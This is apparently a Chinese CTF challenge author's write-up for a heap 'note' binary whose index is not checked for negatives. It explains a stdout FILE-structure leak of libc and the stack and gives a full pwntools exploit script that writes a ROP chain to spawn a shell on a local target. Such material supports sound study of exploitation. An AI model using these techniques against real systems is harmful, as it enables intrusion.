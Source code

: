 临时出的一道防AK的，这次校赛题出简单了，反省

洞很简单，就是idx没查负数

## Leak

利用idx=-8改stdout

* \_flags=0xfbad1887，改stdout的缓冲方式
* \_IO_write_base改到stdout的\_chain，输出stdin的地址，用的libc stdout的最低字节为0x03，改一字节改不到，改两字节需要爆破十六分之一

## ROP

用和Leak一样的方法可以泄漏_environ来获取栈地址，然后在栈上写ROP链

*之前遇到这种情况我都是打IO，非常麻烦，之前看别人的wp可以直接打栈，简简又单单🤡*

## EXP

* 先申请idx为8的chunk再delete，令size[-8]=note[8]=0xdead，再改stdout泄漏libc和_environ
* 申请idx为0xf的chunk，这是为了伪造size
* 申请idx为-1，size为stack（要写rop链的地址）的chunk，令size[-1]=note[0xf]=stack
* 改idx为0xf的chunk就能rop了

有十六分之一的爆破，多打几遍，看你运气：）

```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'


def add(idx,size):
    p.sendlineafter(b'>> ',b'1')
    p.sendlineafter(b'Index: ',str(idx).encode())
    p.sendlineafter(b'Size: ',str(size).encode())

def delete(idx):
    p.sendlineafter(b'>> ',b'2')
    p.sendlineafter(b'Index: ',str(idx).encode())

def edit(idx,content):
    p.sendlineafter(b'>> ',b'3')
    p.sendlineafter(b'Index: ',str(idx).encode())
    p.sendafter(b'Content: ',content)

p=remote('127.0.0.1',9999)
libc=ELF('./libc.so.6')
add(8,0x10)
delete(8)
payload=p64(0xfbad1887)+p64(0)*3+b'\xe8\x47'
edit(-8,payload)
libcbase=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-libc.symbols['_IO_2_1_stdin_']
print(hex(libcbase))
environ=libcbase+libc.symbols['_environ']
edit(-8,p64(0xfbad1887)+p64(0)*3+p64(environ)+p64(environ+8))
stack=u64(p.recvuntil(b'\x7f').ljust(8,b'\x00'))-0x140
print(hex(stack))
add(0xf,0x200)
add(-1,stack)
rdi=libcbase+0x2a3e5
binsh=libcbase+next(libc.search(b'/bin/sh\x00'))
system=libcbase+libc.symbols['system']
ret=libcbase+0x29139
payload=p64(ret)+p64(rdi)+p64(binsh)+p64(system)
edit(0xf,payload)
p.interactive()
```

